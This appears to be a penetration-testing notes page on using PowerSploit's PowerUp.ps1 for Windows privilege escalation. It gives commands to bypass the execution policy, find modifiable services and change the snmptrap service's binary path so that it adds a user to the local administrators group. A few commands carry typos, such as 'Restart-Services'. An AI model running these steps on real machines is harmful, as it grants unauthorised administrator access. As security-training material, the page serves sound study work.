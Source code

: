 # PowerUP.ps1

PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations.

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc" %}



Import the library into PowerShell session.

```powershell
powershell -ep bypass
. .\PowerUP.ps1
Invoke-AllChecks-Verbose
```

Do all check of PowerUP:

```powershell
Invoke-AllChecks
```



## Modifiable Service PrivEsc

List services which can be configured:

```powershell
Get-ModifiableService -Verbose
```

If we found one of these, we can change the BINARY\_PATH\_NAME to execute a arbitrary command. For example a command to change the admin group members.

<figure><img src="../../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Check if the service found is set to AUTO\_START&#x20;

```powershell
sc.exe qc snmptrap
```

<figure><img src="../../../../../.gitbook/assets/image (274).png" alt=""><figcaption></figcaption></figure>

Then, verifying that we can set the command to execute.

```powershell
sc.exe config snmptrap binpath="net localgroup administrators DOMAIN\employee /add"
```

Check if the modify was  sucessful

```powershell
sc.exe qc snmptrap
```

Now when we restart the service, the command will be execute and we will have the administrator privilege.

```powershell
Restart-Services snmptrap
```

{% hint style="info" %}
Make a Logoff from the machine to reset the privilege and to have the administrator privilege
{% endhint %}



Unquoted Service Path:

```powershell
Get-ServiceUnquoted -Verbose
```
